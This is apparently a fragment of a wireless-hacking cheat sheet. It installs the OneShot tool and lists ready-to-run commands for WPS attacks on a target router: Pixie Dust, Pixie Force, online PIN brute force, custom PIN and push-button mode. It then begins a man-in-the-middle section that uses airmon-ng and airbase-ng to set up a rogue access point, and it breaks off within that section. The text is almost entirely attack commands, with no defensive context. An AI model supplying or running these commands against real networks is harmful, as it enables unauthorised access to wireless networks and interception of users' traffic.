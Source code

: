 Refere to https://github.com/drygdryg/OneShot if needed.

```
sudo apt install -y python3 wpasupplicant iw wget
sudo apt install -y pixiewps
cd ~
mkdir oneshot && cd oneshot
wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py
wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt
```
 
#### Pixie Dust Attack

```
python3 oneshot.py -b <bssid> wlan0 -K
```

#### Pixie Force Attack with delay of 5 seconds for each attempt

```
python3 oneshot.py -b <bssid> wlan0 -F -d 5
```

#### Online Bruteforce

```
python3 oneshot.py -b <bssid> wlan0 -b
```

#### Custom Pin
 
```
python3 oneshot.py -b <bssid> wlan0 -p 12345678
```
 
#### Using WPS Button
 
```
python3 oneshot.py -b <bssid> wlan0 --pbc
```
 
## Man in the Middle Attack<a name="MitM"></a>

First install dependencies.

```
apt-get install bridge-utils
```

Start your wireless card in monitor mode

```
airmon-ng start wlan0
```

Setup the wireless card as access point using your desired BSSID.

```
airbase-ng –e “<desired BSSID>” <monitor wireless card>
```
